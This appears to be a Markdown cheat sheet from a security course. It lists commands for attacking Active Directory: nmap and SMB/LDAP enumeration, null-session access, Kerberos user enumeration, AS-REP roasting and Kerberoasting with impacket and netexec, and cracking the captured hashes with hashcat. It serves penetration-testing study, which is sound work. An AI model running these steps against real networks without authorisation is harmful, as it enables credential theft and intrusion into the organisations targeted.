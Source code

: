 # Active Directory Cheat sheet - ITHS2023


## Table of Contents

- [Overview](#overview)
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
  - [ASREPRoasting](#asreproasting)
  - [Kerberoasting](#kerberoasting)
- [Post-Exploitation](#post-exploitation)
- [Resources](#resources)

## Overview
More to come...

## Reconnaissance

### Network Enumeration
- **Enumerate SMB across a subnet:**
  ```bash
  netexec smb 10.2.10.1/24
  ```

### Nmap Scans
- **Ping scan:**
  ```bash
  nmap -sP -p
  ```
- **Quick scan:**
  ```bash
  nmap -PN -sV --top-ports 50 --open
  ```
- **SMB vulnerability scan:**
  ```bash
  nmap -PN --script smb-vuln* -p139,445
  ```
- **Classic scan:**
  ```bash
  nmap -PN -sC -sV -oA
  ```
- **Full scan:**
  ```bash
  nmap -PN -sC -sV -p- -oA
  ```
- **UDP scan:**
  ```bash
  nmap -sU -sC -sV -oA
  ```
- **Scan with no ping and save output:**
  ```bash
  nmap -sC -sV -Pn -p- -oA filename -vv
  ```

## Enumeration

### LDAP Enumeration
- **Basic LDAP search:**
  ```bash
  ldapsearch -x -h <ip> -s base
  ```
- **Nmap LDAP enumeration:**
  ```bash
  nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
  ```

### SMB Enumeration
- **Null session enumeration:**
  ```bash
  enum4linux -a -u "" -p ""
  ```
- **Guest session enumeration:**
  ```bash
  enum4linux -a -u "guest" -p ""
  ```
- **Check SMB shares and permissions:**
  ```bash
  smbmap -u "" -p "" -P 445 -H <ip>
  ```
- **Connect to SMB server:**
  ```bash
  impacket-smbclient domain/user@<ip>
  ```

### User Enumeration
- **List users on the domain:**
  ```bash
  enum4linux -U | grep 'user:'
  ```
- **Retrieve users via netexec:**
  ```bash
  netexec smb --users
  ```
- **Enumerate domain users via net RPC:**
  ```bash
  net rpc group members 'Domain Users' -W '' -I '' -U '%'
  ```
- **Enumerate Kerberos users:**
  ```bash
  nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='',userdb=<users_list_file>"
  ```

## Exploitation

### ASREPRoasting
- **Find users without Kerberos preauthentication enabled and save hashes:**
  ```bash
  impacket-GetNPUsers domain/ -usersfile userfile.txt -format hashcat -outputfile hashfile
  ```
- **Crack hashes using hashcat:**
  ```bash
  hashcat -m 18200 hashes wordlist.txt
  ```

### Kerberoasting
- **List users with SPNs:**
  ```bash
  impacket-GetUserSPNs domain/user:password
  ```
- **Save Kerberoast hashes:**
  ```bash
  impacket-GetUserSPNs domain/user:password -outputfile hashes -request
  ```
- **Alternative approach using netexec:**
  ```bash
  netexec ldap <dc_ip> -u <user> -p <password> -d <domain> --kerberoasting KERBEROASTING
  ```

## Post-Exploitation

- **Extract user list for OSINT:**
  Use gathered usernames for further reconnaissance on the internet to identify related information.

## Resources

- [Impacket GitHub Repository](https://github.com/SecureAuthCorp/impacket)
- [Hashcat Official Website](https://hashcat.net/hashcat/)
- [Nmap Official Documentation](https://nmap.org/docs.html)
- [enum4linux GitHub Repository](https://github.com/CiscoCXSecurity/enum4linux)

---

